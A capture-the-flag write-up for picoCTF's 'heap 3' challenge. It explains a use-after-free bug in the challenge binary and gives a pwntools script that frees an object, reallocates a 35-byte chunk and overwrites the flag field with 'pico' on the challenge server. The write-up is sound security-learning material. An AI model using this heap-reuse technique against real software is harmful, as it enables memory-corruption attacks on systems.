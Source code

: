 # heap 3

The goal of this challenge from [picoCTF](https://play.picoctf.org/practice/challenge/440) is to exploit a [UAF](https://beta.hackndo.com/use-after-free/) vulnerability.

Here is what we get once we run the binnary:
```
freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice:
```
Let's examine the source code to understand the vulnerability.


Looking at the `check_win` we can see that we need to set the `x` variable value to `pico`

```c
void check_win() {
    if(!strcmp(x->flag, "pico")) {
        printf("YOU WIN!!11!!\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("No flage for u :(\n");
        fflush(stdout);
    }
}
```

To do this, we can free `x` and allocate a new object of the same size, because `malloc` will return same adress.

To retrieve the `x` size, we need to look to this struct:

```c
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;
```

From this we know we will need to allocate 35 bytes and write 30 bytes before overwriting `x`.

# Solve

```py
from pwn import *

payload = "A" * 30 + "pico"

r = remote("tethys.picoctf.net", 65471)
r.sendlineafter(b"Enter your choice: ", b'5')
r.sendlineafter(b"Enter your choice: ", b'2')
r.sendlineafter(b"Size of object allocation: ", b'35')
r.sendlineafter(b"Data for flag: ", b"a"*30+b'pico')
r.sendlineafter(b"Enter your choice: ", b'4')
r.interactive()
```